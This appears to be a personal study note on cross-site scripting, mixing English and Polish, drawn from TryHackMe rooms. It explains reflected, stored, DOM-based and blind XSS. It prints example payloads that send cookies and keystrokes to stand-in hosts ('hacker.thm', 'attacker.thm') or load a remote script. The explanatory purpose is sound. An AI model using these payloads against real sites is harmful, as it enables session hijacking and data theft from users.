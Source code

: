 # Cross-Site Scripting (XSS)
Cross-Site Scripting (XSS) is an injection attack where malicious JavaScript is injected into a web application to be executed by other users.  

## XSS payload
In XSS, a payload is the JavaScript code intended to execute on a target's device. A payload consists of two parts: **the intention (what the code does)** and **the modification (adapting the code to execute in specific scenarios)**.  
Examples of payload intentions include:

**Proof of Concept**:  
Demonstrating XSS by triggering a simple action, like an alert box.  
Example: `<script>alert('XSS');</script>`  

**Session Stealing**:  
Extracting and sending a user's session cookies to the attacker, allowing session hijacking.  
Example: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

**Key Logger**:  
Logging keystrokes and sending them to the attacker’s server.  
Example: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key));}</script>` 

**Business Logic**:  
Exploiting specific functions, like changing a user's email to an attacker's address.  
Example: `<script>user.changeEmail('attacker@hacker.thm');</script>`  
___
## Reflected XSS
**Reflected XSS** occurs when user-supplied data in an HTTP request is included in a webpage's source code without proper validation.
Example:  
A website that displays error messages directly from the query string without checking its content.  
`https://website.com/?error=Invalid Input Dettected`
```
<div class="alert alert-danger">
    <p>Invalid Input Detected</p>
</div>
```
`https://website.com/?error=<script src=<script src="https://attacker.thm/evil.js"></script>`
```
<div class="alert alert-danger">
    <p><script src="https://attacker.thm/evil.js"></script></p>
</div>
```
Attackers can send malicious links or embed them in iframes to execute JavaScript in victims' browsers, potentially stealing session data or sensitive information.  

Testing for Reflected XSS:  
Test all potential entry points:  
- URL query parameters
- URL file paths
- (Occasionally) HTTP headers
Identify reflected data and verify if a JavaScript payload can execute.  
Payload success depends on where the code is reflected in the application.  
___
## Stored XSS
**Stored XSS** involves storing the malicious payload (e.g., in a database) on the web application. The payload is executed when other users visit the affected page.  

Example:  
A blog website allows users to post comments but doesn't filter out malicious JavaScript. A comment with JavaScript gets stored in the database, and every visitor triggers the script in their browser.  

Potential Impact:  
- Redirecting users to malicious sites.  
- Stealing session cookies.  
- Performing actions on the site as the affected user.  

Testing for Stored XSS:  
Identify entry points where user data is stored and displayed to others:  
- Blog comments.  
- User profile fields.  
- Website listings.  
- Bypass client-side protections by manipulating requests (e.g., sending unexpected data like JavaScript instead of an integer in an input field).  

- Confirm if your JavaScript payload executes, considering where it is reflected in the application.
___
## DOM Based XSS
The **DOM (Document Object Model)** is a programming interface for HTML and XML documents that allows the structure, style, and content of a webpage to be modified programmatically.  



**DOM-Based XSS** occurs when JavaScript in the browser executes malicious input directly, without involving backend interactions or page reloads.  
DOM-based XSS occurs entirely within the user's browser, without involving server-side processing. It manipulates the browser’s Document Object Model (DOM) to execute malicious scripts, making it harder to detect and exploit due to modern browser security improvements.
How DOM-Based XSS Works:  
- Attackers inject malicious code into client-side scripts (e.g., via URL parameters).  
- The browser processes and executes the payload without server involvement.  


**DOM-Based XSS** polegają na wstrzyknięciu złośliwego JavaScriptu do strony internetowej poprzez fragment URI.  
Adres URL:  
```
https://hacksplaining.com/glossary/urls?ref=google&top=Y#details
|    |                  |              |                |      |
  |          |                 |                |          |
  |        domena            ścieżka            |      fragment URI
protokół                                   ciąg zapytania

```
Fragment URI jest opcjonalną częścią adresu URL, znajdującą się za znakiem `#`. Przeglądarki wykorzystują fragmenty URI do wewnętrznej nawigacji po stronie - jeśli na stronie znajduje się znacznik HTML-a, którego atrybut id pasuje do fragmentu URI, przeglądarka po wyświetleniu strony przewinie jej treść do tego znacznika.  
Umożłiwia to odwoływanie się bezpośrednio doróżnych sekcji na stroie.
Example:  
A website uses window.location.hash to display content on the page. If the hash's content isn’t validated, attackers can inject JavaScript, which runs in the victim’s browser.

Potential Impact:  
- Redirecting users to malicious websites.  
- Stealing session data or sensitive content from the page.  

Testing for Stored XSS:  
- Analyze the JavaScript source code for controllable variables (e.g., window.location.x parameters).  
- Check if these variables are written to the DOM or used in unsafe methods like eval().  
- Use crafted payloads to confirm if malicious JavaScript can execute.  
___
## Blind XSS
**Blind XSS** is similar to Stored XSS, but the attacker cannot see the payload execution or test it directly.  
Example:  
A website's contact form accepts messages that are converted into support tickets for staff. If the form doesn't validate inputs, an attacker can inject malicious JavaScript, which staff unknowingly execute in their private portal.  

Potential Impact:  
- Reveal the staff portal URL.  
- Capture staff members' cookies.  
- Extract contents of the portal page. This could allow session hijacking and access to the private portal.  

Testing for Blind XSS:  
- Ensure your payload includes a callback (e.g., an HTTP request) to confirm execution.  
- Tools like [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express) can automatically capture details such as cookies, URLs, and page content, simplifying detection and exploitation.
___
## Sources
- tryhackme, Intro to Cross-site Scripting, https://tryhackme.com/r/room/xss.
- tryhackme, XSS, https://tryhackme.com/r/room/axss.  
- M. McDonald, Bezpieczeństwo Aplikacji Internetowych dla Programistów, 2021 Helion S.A.  